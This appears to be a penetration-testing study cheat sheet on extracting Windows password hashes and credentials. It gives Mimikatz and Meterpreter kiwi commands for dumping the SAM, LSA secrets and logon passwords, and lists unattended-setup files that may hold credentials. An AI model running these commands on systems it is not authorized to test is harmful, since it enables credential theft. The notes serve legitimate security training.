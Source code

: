 # Windows Passwords

* [Hashes](#hashes)
* [Windows Configuration Files](#windows-configuration-files)
* [Mimikatz](#mimikatz)
* [Metasploit / Meterpreter](#metasploit--meterpreter)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Hashes

* Stored in Security Accounts Manager (SAM) database.
* Authentication and verification is facilitated by the Local Security Authority (LSA).
   * Elevated/Administrative Privileges are required to interact with LSASS process.

* Two types of hashes:
   * LM (LanMan)
      * LM is disabled from Windows Vista onwards.
   * NTLM (NTHash)
      * Modern Windows use NTLM.
      * No password salts
      * Uses MD4 Algorithm

**************************************

## Windows Configuration Files

### Unattended Windows Setup

* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Autounattend.xml
* Config files may be base64 encoded

**************************************

## Mimikatz

* Requires admin privileges to run correctly.

```
mimikatz.exe
```

Check Privileges (Need: Privilege '20' OK):
```
privilege::debug
```

Impersonate privileges to system level:
```
token::elevate
```

Dump SAM database / hashes for all users:
```
lsadump::sam
```

Possibly dump clear text creds:
```
lsadump::secrets
```
```
sekurlsa::logonpasswords
```


## Metasploit / Meterpreter

```
migrate [LSASS-PID]
```
```
load kiwi
```
Help menu:
```
?
```
Retrieve all credentials (parsed):
```
creds_all
```
Dump hashes for all users:
```
lsa_dump_sam
```
Possibly dump clear text creds:
```
lsa_dump_secrets
```

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
